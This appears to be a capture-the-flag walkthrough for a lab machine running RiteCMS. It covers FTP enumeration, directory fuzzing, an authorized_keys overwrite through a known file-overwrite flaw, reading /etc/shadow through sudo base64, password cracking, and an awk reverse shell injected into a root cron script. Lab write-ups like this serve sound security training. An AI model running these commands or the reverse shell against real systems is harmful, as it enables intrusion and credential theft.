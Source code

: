 Open the index site of the machine at: http://ip

We are greeted with a text that reads "Welcome to our Website" and an image of a character.

With a reverse image search we can deduce that the character is called April.

Question: What is the first name of the character on the landing page?

Answer: April

We can then start scanning the room and answer the following questions:

1.  How many ports does the machine have open?

2. What is the CMS version?


First scan the room with nmap:

![Nmap scan of the room](nmap.png)

This shows us the following information:
4 open ports:
Ftp command and data ports , apache and SSH.

NOTE: the Ftp data port may not be visible in the scan since nmap default scan might not check if the data port is open.


Question:  How many ports does the machine have open?
Answer: 4

We can then interface with the FTP server to find extra information that might be left there

The ftp server can be connected to with the following command:
´´´console
ftp ip
´´´
Then entering Anonymous as user

then changing to passive mode with "pass" command to be able to interface with the ftp server.

![Interfacing with ftp](ftp.png)

A directory listing inside the ftp server shows us a directory called "public" inside which are diary and log files

![Interfacing with ftp](ftpls.png)

We can download the diary files by typing:
´´´console
get <filename>
´´´

diary_06_05.txt shows the following information:


![April's diary](diary.png)

there are other files with hints inside the ftp, but the relevant file is this one that reveals that the admin panel is behind a hidden path and that the admin password is "mastersplinterknowskarate"

Let's find this path:
´´´console
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion -u http:/<IP>/FUZZ
´´´
This command first finds a directory called .listings
then beyond that directory, it finds a directory called cmsadmin

So the full path is:
http://<ip>/.listings/cmsadmin

![cms](cms.png)

Down on the right we can see the RiteCMS version:
v.3.1.0


Question: What is the CMS version?
Answer: 3.1.0

We can then try to find an exploit from exploitdb:

And come accross this Arbitrary file overwrite vulnerability

https://www.exploit-db.com/exploits/50614

We can then head on over to the admin page and login with the following credentials:

admin:mastersplinterknowskarate


Then we can head onto settings, then onto the files manager:

We can now have multiple ways to do this but the original intention of this room was to add your own authorized keys and then ssh into the machine, lets do this:

first create a key with:
´´´console
ssh-keygen -t rsa
´´´
Then add the public key from this to a file called "authorized_keys"
and overwrite the same file on the server:
the public key is added with:
cat key.pub >> authorized_keys
We can then replace the original authorized_keys file on the server with this one:

![file upload vuln](fileupload.png)

After adding this we can then login with the april user as the server:
´´´console
ssh -i key april@ip
´´´
We arrive at the home folder of april and can read the first user flag:


![userflag](userflag.png)

Let's then start looking for the second user flag:

Lets start by looking at what we can do:

We can find this information manually or with linpeas.sh

We can find the binary we are looking for with 
sudo -l

that gives the following output

![base64](base64.png)

We can then exploit this binary by using the following gtfobin:
https://gtfobins.github.io/gtfobins/base64/

lets read files we should not have access to such as /etc/shadow and /etc/passwd:

```bash
LFILE=/etc/shadow
sudo base64 "$LFILE" | base64 --decode
```

The copy the output of this manually and add it to a file called shadow.txt

Then repeat for the same for /etc/passwd

```bash
LFILE=/etc/passwd
sudo base64 "$LFILE" | base64 --decode
```
And copy this to a file called passwd.txt

Then we can crack the password for the second user using john:

We took the first part from the shadow for leonardo:

The hash is as follows:
![hash](hash.png)
The result:
![john](john.png)

That gives the following password for the user leonardo:

1322818jmkc

We can then log onto this user and read the second user flag:

![Second user flag](2nduserflag.png)


We can then move onto the final privilege escalation of the challenge:

Let's read the global crontab file with:

cat /etc/crontab

and we can see the following entry:

* * * * * root /home/leonardo/check_status.sh

Which means that root runs a script in /home/leonardo/check_status.sh

if we read this file: it gives the output:

$ cat check_status.sh
echo "Gathering UFW status..."
systemctl status ufw
echo "Status for UFW gathered!"$ 

We then need to edit this file to include a reverse shell that connects to our machine when the script is ran:

NOTE: not all reverse shells work for this so finding one might be trial and error:

A working reverse shell for this is:
```console
awk 'BEGIN {s = "/inet/tcp/0/ip/4445"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

We then start a netcat listener on the attacker end with:

nc -lvnp 4445

![Root flag!](rootflag.png)

And you have now completed the room.